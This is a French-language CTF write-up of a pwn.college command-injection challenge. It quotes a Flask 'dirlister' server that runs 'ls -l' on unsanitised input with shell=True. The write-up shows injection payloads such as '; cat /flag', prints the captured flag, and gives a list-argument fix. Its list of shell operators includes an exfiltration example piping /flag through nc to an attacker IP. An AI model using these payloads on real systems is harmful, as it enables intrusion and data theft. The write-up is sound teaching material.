


DEscription

*Now, imagine getting more crazy than these security issues between the web server and the file system. What about interactions between the web server and the whole Linux shell?*

*Depressingly often, developers rely on the command line shell to help with complex operations. In these cases, a web server will execute a Linux command and use the command's results in its operation (a frequent usecase of this, for example, is the `Imagemagick` suite of commands that facilitate image processing). Different languages have different ways to do this (the simplest way in Python is `os.system`, but we will mostly be interacting with the more advanced `subprocess.check_output`), but almost all suffer from the risk of command injection.*

*In path traversal, the attacker sent an unexpected character (`.`) that caused the filesystem to do something unexpected to the developer (look in the parent directory). The shell, similarly, is chock full of special characters that cause effects unintended by the developer, and the gap between what the developer intended and the reality of what the shell (or, in previous challenges, the file system) does holds all sorts of security issues.*

*For example, consider the following Python snippet that runs a shell command:*

```console
os.system(f"echo Hello {word}")
```

*The developer clearly intends the user to send something like `Hackers`, and the result to be something like the command `echo Hello Hackers`. But the hacker might send anything the code doesn't explicitly block. Recall what you learned in the [Chaining](https://pwn.college/linux-luminarium/chaining) module of the [Linux Luminarium](https://pwn.college/linux-luminarium): what if the hacker sends something containing a `;`?*

*In this level, we will explore this exact concept. See if you can trick the level and leak the flag!*

LE code source du serveur 

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/serve", methods=["GET"])
def challenge():
    arg = flask.request.args.get("top-path", "/challenge")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/serve"><input type=text name=top-path><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

Lorsqu'on examine cetet app flask on remarque que le programme demande a un utilisateur d'entrer le nom d'un repertoir et affiche les fichiers et et dossiers a l'interrieur avec les permissions (ls -l )

```python
    arg = flask.request.args.get("top-path", "/challenge")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
```

Mais vous allez sous demander ou se trouve la vulnerabilite ?

Si nous regardons la ligne 
```python
command = f"ls -l {arg}"
```

On remarque le developpeur passe directement la saisie de l'utilisateur dans args puis applique le ls -s dessus pour exectuer dircetment sans netoyage prealable . 

Du coup sur les systeme linux, on utilise generablement le caractere ";" pour separer les commandes donc ici par exemple si nous mettons un 
```bash
; id
```

Comme reperoire, la requete devient directment comme celle ci comme commande 

```bash
ls -l ; id
```

donc ici le programme va aussi executer notre commande id 

Test  dans le nom du repertoire entrez 

```bash
; id
```

Resultat

> ****Informations Générales****
> - **Plateforme :** pwn.college
> - **Catégorie :** Command Injection
> - **Impact :** Exécution de commandes à distance (RCE) / Élévation de privilèges (`root`)

---

##  1. Description du Challenge

L'application web est un service de listing de répertoires (*dirlister service*). Elle permet à l'utilisateur de fournir le nom d'un dossier et exécute la commande système `ls -l <input>` pour en afficher le contenu.

En arrière-plan, le serveur s'exécute avec un wrapper SUID (`/usr/bin/exec-suid`), lui conférant des privilèges **root**.

---

## 2. Analyse du Code Source

Le serveur Flask est configuré comme suit :

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/serve", methods=["GET"])
def challenge():
    arg = flask.request.args.get("top-path", "/challenge")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,
        shell=True,            # ⚠️ Interpréteur shell activé
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/serve"><input type=text name=top-path><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
````

### Failles Identifiées

1. **Concaténation directe de l'entrée utilisateur :**
    
    
    ```python
    command = f"ls -l {arg}"
    ```
    
    L'argument `top-path` passé dans la requête HTTP GET est concaténé directement dans la commande sans nettoyage (_sanitization_).
    
    
2. **Utilisation de `shell=True` :**
    
      
    
    ```python
    subprocess.run(command, shell=True, ...)
    ```
    
    L'option `shell=True` demande à Python de passer la chaîne complète à un interpréteur shell (`/bin/sh`). Le shell interprète donc tous les métacaractères spéciaux tels que `;`, `&&`, `||` ou `|`.
    
         
1. **Contexte de privilèges (`root`) :**
    
    Grâce au wrapper SUID et à `os.setuid(os.geteuid())`, toute commande injectée s'exécute avec les droits de l'utilisateur système `root`.
       
    

##  3. Exploitation

### Étape 1 : Vérification de l'injection

Pour tester si le séparateur de commandes `;` fonctionne, on envoie le payload suivant dans le champ `top-path` :

  
```bash
; id
```

> ****Résultat :** Le serveur renvoie le résultat de `id`, confirmant l'exécution de code avec `uid=0(root)`.**
> 
>   



### Étape 2 : Localisation du flag

On liste le contenu de la racine `/` :

```bash
; ls -l /
```

On observe la présence du fichier `/flag`.

### Étape 3 : Lecture du flag

On lit le contenu du fichier `/flag` :
  

```
; cat /flag
```

> ****Flag obtenu :** `pwn.college{k2wzTwZkFYu8n4Xn3kHZWgPPNO5.QX1YTN2wSM5EjN3EzW}`**
> 
>   



##  4. Remédiation (Correction de la vulnérabilité)

Pour sécuriser ce code, il faut éliminer l'invocation du shell et passer les arguments sous forme de liste.

  

```python
# Code Sécurisé
result = subprocess.run(
    ["ls", "-l", arg],  # Transmission directe des arguments
    shell=False,        # Pas d'interpréteur shell
    stdout=subprocess.PIPE,
    stderr=subprocess.STDOUT,
    encoding="latin"
).stdout
```

Avec cette correction, une injection du type `; cat /flag` sera traitée littéralement comme un nom de fichier introuvable par la commande `ls`.

Sous Linux et dans les shells (comme Bash), il existe de nombreux autres séparateurs et opérateurs de contrôle qui permettent d'enchaîner, de filtrer ou d'exécuter des commandes.

  --- 
  
### 1. Les opérateurs logiques (Conditionnels)

Ces opérateurs évaluent le code de retour de la première commande avant de décider d'exécuter la suivante :

  
- **`||` (OU logique) :** Exécute la seconde commande **uniquement si la première échoue** (code de retour != 0).
    
      
    - _Exemple :_ `fakepath || cat /flag`
        
          
        
- **`&&` (ET logique) :** Exécute la seconde commande **uniquement si la première réussit** (code de retour = 0).
    
      
    - _Exemple :_ `/challenge && cat /flag`
        
          
        

### 2. Le chaînage par tuyau (Piping)

- **`|` (Pipe) :** Redirige la sortie standard (`stdout`) de la première commande vers l'entrée standard (`stdin`) de la seconde. Très pratique si tu veux combiner des outils.
    
      
    - _Exemple :_ `ls / | grep flag` ou `cat /flag | nc [attaquant_ip] 4444`
        
          
        

### 3. Le saut de ligne (Newlines)

Le shell considère un retour à la ligne (`\n` ou le caractère d'échappement correspondant) exactement comme un point-virgule pour séparer des instructions.

  

- **Encodage URL :** `%0a` (ou `%0d%0a` pour un retour chariot Windows/CRLF).
    
      
    - _Exemple dans une URL :_ `?storage-path=a%0acat+/flag`
        
          
        

### 4. La substitution de commandes

Si tu n'as pas besoin de séparer les commandes sur la même ligne mais que tu veux intégrer le résultat d'une commande dans une autre :

  

- **`$(...)` ou `` `...` `` (Backticks) :** Exécute la commande interne et insère son résultat.
    
      
    - _Exemple :_ Si la commande est `ls -l /challenge/$(cat /flag)`, la commande interne s'exécutera. (Attention aux limitations si la sortie contient des espaces ou des retours à la ligne).
        
          
        

### 5. Les redirections d'entrées/sorties combinées

- **`&` (Arrière-plan) :** Lance la première commande en arrière-plan et exécute immédiatement la suivante (parfois filtré, mais utile selon le contexte).
    
      
    - _Exemple :_ `sleep 10 & cat /flag`
    -
